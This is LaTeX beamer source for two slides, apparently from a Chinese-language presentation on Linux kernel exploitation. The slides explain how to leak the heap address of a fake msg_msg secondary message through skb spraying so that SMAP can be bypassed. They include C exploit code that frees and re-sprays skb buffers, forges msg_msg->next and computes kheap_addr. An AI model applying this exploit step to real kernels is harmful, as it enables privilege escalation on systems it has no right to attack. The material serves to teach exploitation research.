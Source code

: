 \documentclass[xcolor=table]{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{泄露fake辅助消息的堆地址}

\footnotesize\begin{enumerate}
	\item 以上可以获得与fake辅助消息相邻辅助消息->主消息的堆地址，将此地址填充为msg\_msg->next，释放skb后，重新填充，那么此时fake辅助消息的msg\_msg->next为相邻辅助消息->主消息的堆地址，内核会认为该主消息为fake辅助消息的一部分（如果msg\_msg不足以容纳全部消息则为msg\_msg->next开辟空间后继续容纳剩余消息）
	\item 一次性读取大量fake辅助消息，内核会从msg\_msg->next中继续读取消息，由此实现对于主消息头的泄露，主消息头中的msg\_msg->list\_head->next指向与之对应的辅助消息，即与fake辅助消息相邻的辅助消息，该内存减去1024（辅助消息结构体大小）后，得到fake辅助消息真实地址
	\item 至此，获得fake辅助消息真实地址，此时再次释放skb，并将fake辅助消息真实地址填充为msg\_msg->list\_head->next，即可在释放此辅助消息时绕过smap
\end{enumerate}


\end{frame}

\begin{frame}[fragile]
\frametitle{泄露fake辅助消息的堆地址}
\vspace{-0.2cm}
\tiny\begin{lstlisting}[language=c]
    printf("[*] Freeing fake secondary messages...\n");
    free_skbuff(ss, secondary_buf, sizeof(secondary_buf));
    // Put kheap_addr at next to leak its content. Assumes zero bytes before
    // kheap_addr.
    printf("[*] Spraying fake secondary messages...\n");
    memset(secondary_buf, 0, sizeof(secondary_buf));
    build_msg_msg((void *) secondary_buf, 0x41414141, 0x42424242,
                  sizeof(msg_fake.mtext), kheap_addr - MSG_MSGSEG_SIZE);
    if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) < 0)
        goto err_rmid;
    // Use the fake secondary message to read from kheap_addr.
    printf("[*] Leaking primary message...\n");
    if (peek_msg(msqid[fake_idx], &msg_fake, sizeof(msg_fake), 1) < 0)
        goto err_rmid;
    // Check if the leak is valid.
    if (*(int *) &msg_fake.mtext[PAGE_SIZE] != MSG_TAG) {
        printf("[-] Error could not leak primary message.\n");
        goto err_rmid;
    }
    // The primary message contains a pointer to the secondary message.
    msg = (struct msg_msg *) &msg_fake.mtext[PAGE_SIZE - MSG_MSG_SIZE];
    kheap_addr = msg->m_list_next;
    if (kheap_addr & (SECONDARY_SIZE - 1))
        kheap_addr = msg->m_list_prev;
    // Calculate the address of the fake secondary message.
    kheap_addr -= SECONDARY_SIZE;
    printf("[+] kheap_addr: %\"PRIx64\"\n", kheap_addr);
\end{lstlisting}

\end{frame}
\end{document}
